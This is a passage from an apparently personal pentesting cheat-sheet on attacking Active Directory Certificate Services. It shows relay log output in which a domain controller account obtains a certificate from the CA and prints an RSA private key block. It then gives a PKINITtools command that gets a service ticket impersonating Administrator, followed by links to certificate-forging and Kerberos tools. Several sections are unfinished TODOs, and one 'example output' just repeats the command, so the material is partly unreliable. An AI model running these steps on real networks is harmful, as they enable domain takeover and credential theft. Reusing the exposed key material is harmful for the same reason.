     Key:
    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEAoh5lAPHuvdlLp41Q4uj11zyI5EPL8zFX8ov00EQkZ6VktkGs
    CFQwlPLcusGpE+t+GYOtD1juRu+SvHpQCn/yVScC0y/YY8HtxHSLD8ghs+lVjilx
    yq2yos/V6L5vQ8YFtnNU9MpySFSzoHwCrr0wWlMKEyxe0VCi5WPZblfW+GUrsS27
    0s+bPcCAeAusgLPIfWP5+/qVlcLvQuZgPOTVMB0OrZj/pRDrXwgy9gOBbHZuj2v/
    wfu6dNpjqsu6yGDEXX9Ps98F/ALJU4afATlfk+KKifuoONNCeMixxnUa+QX6APR0
    BGJGMq6XIhRKf39XxYPKRE8ANTffFQOWLzZt5wIDAQABAoIBAFfc/0Le3FSac01Q
    4rjIJ41KqqqEMAITCSZUQg+qDsz5r7azqwgskNP5ODYjhX5dUE+FtQKvYRyi9TUf
    <trimmed>
    x8lxHoF8Lh/rQFELdSQbQ0xLSvoCUQUDAps3XqekoFbl701yS2zPwEmn9h3JIg0E
    KUrPEP/nl0MVnAeuExtvkwuskfWvvSVfeosGSnYNv14YVx4gLbljMOlZ3xmv04GY
    cT+UO4ECgYBVqxL10UQQDuZJCivXAdqRlIjkhp/zN464oTgRZvvvS7S/grsOpffR
    CVphrT9zVCjg2lHY+iVpOOi0vnMp+rSYNfyGnPSMCpGs4P2KeIkwLYJidQk3vZA4
    oUOzb9QlBuvkA4R3A3631wPx31i2pYwL/2y3gtOu3VnYB/LcMUmLeA==
    -----END RSA PRIVATE KEY-----

    [*] SMBD-Thread-4: Connection from LAB/DC0$@10.0.0.4 controlled, attacking target https://ca
    [*] HTTP server returned error code 200, treating as a successful login
    [*] Authenticating against https://ca as LAB/DC0$ SUCCEED
    Performing certifiate request attack
    ```

### Exploitation: Use the Certificates, Get Tickets

### Method 2: PKINITtools and the getsutickey.py script.

#@TODO - This needs testing and validation

1. Use the **PKINITtools** **gets4uticket.py** script.
    ```
    python gets4uticket.py kerberos+ccache://lab.local\\dc0\$:dc0.ccache@<CA> cifs/dc0.lab.local@lab.local Administrator@lab.local out.ccache -v
    ```
    * Example output:
    ```
    python gets4uticket.py kerberos+ccache://lab.local\\dc0\$:dc0.ccache@<CA> cifs/dc0.lab.local@lab.local Administrator@lab.local out.ccache -v
    ```

### Method 4: Using Binaries on remote system

```bash
pip3 install pipenv
```

#@TODO - finish inserting notes.

* Specterops GitHub: ForgeCert -<br />[https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)
* Specterops GitHub: Certify -<br />[https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)
* Specterops GitHub: Rubeus -<br />[https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* bats3c (Specterops) GitHub: ADCSPwn -<br />[https://github.com/bats3c/ADCSPwn](https://github.com/bats3c/ADCSPwn)
